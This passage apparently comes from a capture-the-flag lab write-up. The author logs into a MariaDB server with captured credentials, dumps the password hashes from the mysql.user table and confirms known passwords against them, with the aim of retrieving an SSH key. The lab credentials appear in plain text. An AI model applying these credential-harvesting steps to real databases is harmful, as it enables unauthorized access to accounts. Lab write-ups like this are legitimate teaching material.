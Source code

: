 First, I need to get the SSH key from the database server. I’ll connect with
the creds I have:

    
    
    /app/ticketer # mysql -h 10.100.10.4 -u dorthi -pN0Pl4c3L1keH0me           
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 3                                                
    Server version: 5.5.59-MariaDB-1~wheezy mariadb.org binary distribution
                                                                               
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.        
                                                                                 
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 
                                                                               
    MariaDB [(none)]>
    

There’s not much exciting in it. There’s hashes for the root and dorthi user:

    
    
    MariaDB [mysql]> select host,user,password from user;
    +-----------+--------+-------------------------------------------+
    | host      | user   | password                                  |
    +-----------+--------+-------------------------------------------+
    | localhost | root   | *61A2BD98DAD2A09749B6FC77A9578609D32518DD |
    | %         | dorthi | *43AE542A63D9C43FF9D40D0280CFDA58F6C747CA |
    | %         | root   | *61A2BD98DAD2A09749B6FC77A9578609D32518DD |
    +-----------+--------+-------------------------------------------+
    3 rows in set (0.01 sec)
    

They won’t crack easily, but I can confirm the passwords I already have:

    
    
    MariaDB [mysql]> select PASSWORD('N0Pl4c3L1keH0me');
    +-------------------------------------------+
    | PASSWORD('N0Pl4c3L1keH0me')               |
    +-------------------------------------------+
    | *43AE542A63D9C43FF9D40D0280CFDA58F6C747CA |
    +-------------------------------------------+
    1 row in set (0.00 sec)
    
    MariaDB [(none)]> select PASSWORD('SuP3rS3cr3tP@ss');
    +-------------------------------------------+
    | PASSWORD('SuP3rS3cr3tP@ss')               |
    +-------------------------------------------+
    | *61A2BD98DAD2A09749B6FC77A9578609D32518DD |
    +-------------------------------------------+
    1 row in set (0.00 sec)
    

#### Read Key
